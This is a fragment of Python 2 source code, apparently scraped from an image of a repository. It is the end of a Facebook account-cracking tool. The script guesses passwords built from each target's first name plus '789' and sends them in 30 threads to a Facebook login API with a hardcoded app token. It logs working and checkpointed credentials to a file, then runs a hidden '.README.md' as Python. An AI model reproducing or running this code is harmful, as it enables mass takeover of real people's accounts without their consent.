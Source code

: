 													q = json.load(data)
													if 'access_token' in q:
														print '\x1b[1;92m[Successful]\x1b[0m ' + user + ' | ' + pass6
														oks.append(user+pass6)
													else:
														if 'www.facebook.com' in q["error_msg"]:
															print '[Checkpoint] ' + user + ' | ' + pass6
															cps = open("save/checkpoint.txt", "a")
															cps.write(user+"|"+pass6+"\n")
															cps.close()
															cpb.append(user+pass6)
														else:
															a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
															b = json.loads(a.text)
															pass7 = b['first_name'] + '789'
															data = urllib2.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q = json.load(data)
															if 'access_token' in q:
																print '\x1b[1;92m[Successful]\x1b[0m ' + user + ' | ' + pass7
																oks.append(user+pass7)
															else:
																if 'www.facebook.com' in q["error_msg"]:
																	print '[Checkpoint] ' + user + ' | ' + pass7
																	cps = open("save/checkpoint.txt", "a")
																	cps.write(user+"|"+pass7+"\n")
																	cps.close()
																	cpb.append(user+pass7)
																	
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print 50*"-"
	print '[✓] Process Has Been Completed ....'
	print "[✓] Total OK/CP : "+str(len(oks))+"/"+str(len(cpb))
	print("[✓] CP File Has Been Saved : save/checkpoint.txt")
	raw_input("\n[Back]")
	if xxx == '0':
		other_menu()
	else:
		os.system('python2 .README.md')
		
if __name__ == '__main__':
    ym()
    
